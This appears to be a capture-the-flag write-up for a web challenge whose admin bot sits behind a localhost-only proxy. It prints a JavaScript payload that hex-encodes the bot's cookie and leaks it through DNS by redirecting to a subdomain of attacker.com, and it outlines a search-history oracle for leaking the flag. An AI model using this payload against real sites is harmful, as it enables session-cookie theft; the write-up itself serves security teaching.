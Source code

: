 # Overview

- The admin bot is using an http proxy as follows:
```python
def request(flow: http.HTTPFlow) -> None:
    if not flow.request.pretty_host == "127.0.0.1":
        flow.response = http.Response.make(
            403,  # (optional) status code
            b"Access Denied",  # (optional) content
            {"Content-Type": "text/html"}  # (optional) headers
        )
```

# Solution (was also unintended 😛)
- Credits to `sebastianpc` for the solution.
- Changing `document.location` manages to make DNS queries regardless of the proxy. 
```html
<script>

function convertToHex(str) {
    var hex = '';
    for(var i=0;i<str.length;i++) {
        hex += ''+str.charCodeAt(i).toString(16);
    }
    return hex;
}
document.location="http://"+ convertToHex(document.cookie.split("=")[1]).slice(0,30)+".attacker.com/"</script>
```

# Solution
- Notice that the `/search` param which holds history for other users' searches allows up to 100 post values.
- Make the bot hit the `/search` endpoint and use that as an oracle to leak the flag.
- One way would be:
  - For each character of the flag, send as many values as `ord(character)`. E.g. for `A`, send 65 values. See the search history and find the character.
- The problem with the above is that when other attackers do the same, the history will be polluted.
- A harder way is written in [solve.py](solve.py) which uses sets to find the character. We start with all possible values for each character and keep reducing the set until we find the character.
- There is no limit to one's imagination. One could also use the search history to leak the flag in a different way.